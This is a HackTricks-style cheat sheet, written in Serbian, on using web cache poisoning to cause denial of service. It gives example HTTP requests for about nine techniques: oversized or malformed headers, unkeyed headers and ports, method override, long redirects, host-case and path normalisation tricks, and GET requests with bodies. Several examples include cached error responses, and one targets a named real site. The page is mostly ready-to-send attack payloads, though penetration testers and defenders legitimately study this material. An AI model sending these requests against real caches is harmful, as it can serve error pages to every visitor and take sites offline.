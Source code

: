 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Na ovoj stranici možete pronaći različite varijacije koje možete isprobati da naterate **web server da odgovori greškama** na zahteve koji su **validni za cache servere**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Pošaljite zahtev sa veličinom zaglavlja većom od one koju podržava web server, ali manjom od one koju podržava cache server. Web server će odgovoriti sa 400 odgovorom koji može biti keširan:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Pošaljite zaglavlje koje sadrži neke **štetne meta karaktere** kao što su `\n` i `\r`. Da bi napad uspeo, prvo morate da zaobiđete keš.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Loše konfigurisana zaglavlja mogu biti samo `\:` kao zaglavlje.

Ovo takođe može raditi ako se pošalju neočekivane vrednosti, poput neočekivanog Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Neki vebsajti će vratiti kod greške ako **vide neke specifične zaglavlja** u zahtevu kao što je sa _X-Amz-Website-Location-Redirect: someThing_ zaglavljem:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Ako server podržava promenu HTTP metode sa zaglavljima kao što su `X-HTTP-Method-Override`, `X-HTTP-Method` ili `X-Method-Override`. Moguće je zatražiti važeću stranicu menjajući metodu tako da server ne podržava, tako da se loš odgovor kešira:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Nepovezani Port**

Ako je port u Host header-u odražen u odgovoru i nije uključen u ključ keša, moguće je preusmeriti ga na neiskorišćeni port:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Kao u sledećem primeru, x se ne kešira, tako da napadač može da iskoristi ponašanje odgovora na preusmerenje da napravi preusmerenje koje šalje URL toliko veliki da vraća grešku. Tada će ljudi koji pokušavaju da pristupe URL-u bez nekovanog x ključa dobiti odgovor sa greškom:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalizacija velikih i malih slova u host header-u**

Host header bi trebao biti neosetljiv na velika i mala slova, ali neka web stranice očekuju da bude napisan malim slovima, vraćajući grešku ako nije:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Normalizacija putanje**

Neke stranice će vraćati kodove greške šaljući podatke URLencode u putanji, međutim, cache server će URLdecode-ovati putanju i sačuvati odgovor za URLdecoded putanju:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Neki keš serveri, kao što su Cloudflare, ili veb serveri, zaustavljaju GET zahteve sa telom, tako da se ovo može iskoristiti za keširanje nevažećeg odgovora:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Reference

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
